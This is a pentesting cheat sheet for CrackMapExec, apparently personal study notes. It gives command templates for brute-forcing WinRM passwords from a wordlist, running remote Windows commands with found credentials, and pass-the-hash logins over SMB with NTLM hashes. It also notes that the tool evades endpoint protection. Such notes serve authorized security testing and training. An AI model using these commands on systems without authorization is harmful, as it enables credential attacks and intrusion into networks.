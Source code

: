 # CrackMapExec

"**_A swiss army knife for pentesting networks..._**" [ [Documentation](https://ptestmethod.readthedocs.io/en/latest/cme.html) ]
- CrackMapExec (a.k.a CME) is a `post-exploitation` tool that helps automate assessing the security of large Active Directory networks. 
- Built with stealth in mind, CME follows the concept of “Living off the Land”: abusing built-in Active Directory features/protocols to achieve it’s functionality and allowing it to evade most endpoint protection/IDS/IPS solutions.

**Supported Protocols:** `WinRM`, `MSSQL`, `SMB`, `SSH`

## Help

For help and syntax, just issue the command: `crackmapexec`

```
crackmapexec -h
crackmapexec winrm -h  # for help specific to the winrm protocol
crackmapexec smb -h    # for help specific to the smb protocol, etc.
```

## General Syntax

```
crackmapexec <protocol> <target(s)> -u username -p password
```

## Examples

```
crackmapexec <protocol> <target(s)> -u username -p 'Admin!123@'   # or...
crackmapexec <protocol> <target(s)> -u='username' -p='Admin!123@'
```

## WinRM:

**Syntax:**

```
crackmapexec winrm [target ip] -u administrator -p /usr/share/.../unix_passwords.txt
```

You can use the `-u` switch to specify a file of possile user names to try.  
- But, if we can get into the admin account, we don't have to do priv esc (so we test with one username, "administrator," first).
- You should get a green `[+]` if successful.

Look over the output (from the top down): 
- First line: you can see it actually connects to WinRM (wsman is an implementation of WinRM: windows management).

**Execute Commands:** 

If you successfully found login credentials, you can crackmapexec to execute arbitrary Windows commands on the target machine. Examples:

```
crackmapexec winrm [target ip] -u administrator -p tinkerbell -x "whoami"
# You should get some happy feedback along with the results of your command execution.
crackmapexec winrm [target ip] -u administrator -p tinkerbell -x "systeminfo"
# This takes a while to run but provides a lot of information about your target system.
```

## Pass-the-Hash

**Syntax:**

```
crackmapexec smb [target ip] -u Administrator -H "[administrator ntlm hash; copy-paste]"
```

This should indicated whether or not it works. 

If you get a green `[+]` and (`Pwn3d!`) then it works and you can try the execution of commands on the system...

```
crackmapexec smb [target ip] -u Administrator -H "[administrator ntlm hash; copy-paste]" -x "ipconfig"
```

It should give you visual feedback about the command execution. And there you go. Execute what you want.
